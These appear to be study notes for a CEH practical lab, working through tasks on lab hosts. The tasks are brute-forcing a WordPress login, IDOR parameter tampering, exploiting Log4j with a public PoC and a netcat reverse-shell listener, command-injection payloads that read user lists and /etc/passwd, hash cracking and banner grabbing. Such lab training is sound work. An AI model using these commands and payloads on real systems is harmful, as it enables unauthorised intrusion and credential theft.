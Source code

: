 1.7 Perform a bruteforce attack on www.cehorg.com and find the password of user adam.
 Input Format: aaaaaaaNNN
**Search for default login page/url if no login page is provided
Some default urls are:
->http://<domain>/wp-admin
->http://<domain>/wp-login.php
-> /wp-admin/
->/login/

Then bruteforce

1.8 Perform parameter tampering on movies.cehorg.com and find out the user for id 1003.
 Input Format: Aaaaa Linda is ans
** This one is related to “perform sql injection on movies.cehorg.com and find out no of users available in the database.Use Jason/welcome as login cred.
After logging in  movies.cehorg.com -> then go to-> movies.cehorg.com/viewprofile.aspx?id=1003
IDOR,parameter tampering broken authentication

1.9 You have identified a vulnerable web application on a linux server at port 8080.Exploit the web app vuln, gain access to the server and enter the content of rootflag as ans. (Aa*aaNNNN)-as no subnet is given we have to scan every subnet for open port.other than 1, every 8080 is filtered)[ github: ceh-engage-part-3.md]
- nmap –T4 –p 8080 172.16.0.0/24 
- nmap –T4 –p 8080 192.168.0.0/24 1 (suppose 192.168.0.55:8080 is open)
- Gobuster dirb –u http://192.168.0.55:8080 -w /usr/share/wordlist/dirb/common.txt
Other than login,no other dir is found.
-Then search goFinance exploit. There is a chance of Log4j vuln. 
-kozmer github for log4j script-> cd log4j-shell.poc->pip install –r requirement.txt
-python poc.py -h
- python poc.py --userip 10.10.1.10 --webport 8080 –lport 9000
-In another terminal, command : nc –lvp 9000 ...
[ https://www.youtube.com/watch?v=Ok0RRJpm86k&t=3948s&ab_channel=FireShark
1.23.40 time]
 
1.10 Perform a command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine.nb exclude admin/Guest user. Set security to low
- 127.0.0.1 && ls
- 127.0.0.1 && dir
- 127.0.0.1 && net user [ to check users] = 8 users(without guest & administrator)
- for linux: 127.0.0.1 | cat /etc/passwd

1.11 A set of files has been uploaded through DVWA (http://10.10.0.25:8080/DVWA). The files are located in the "C:\wamp64\www\DVWA\hacckable\has.txt" directory. Access the files and decode the md5 hash to reveal the original message among them. Enter the decrypted message as the answer. You can log into the DVWA using the credentials admin/password. Use type command to view the file(Format: A**aaa*AA) 
- 127.0.0.1 | cat "/home/parrot/Desktop/CV New/secret.txt" [for linux]
- C:\wamp64\www\DVWA\hackable\uploads\Hash.txt. Put the hash into hashes website to get the answer.
- then decrypt the hash

1.12 Perform a banner grabbing on the web application movies.cehorg.com and find the ETag of the respective target machine
- nc –vv movies.cehorg.com 80
 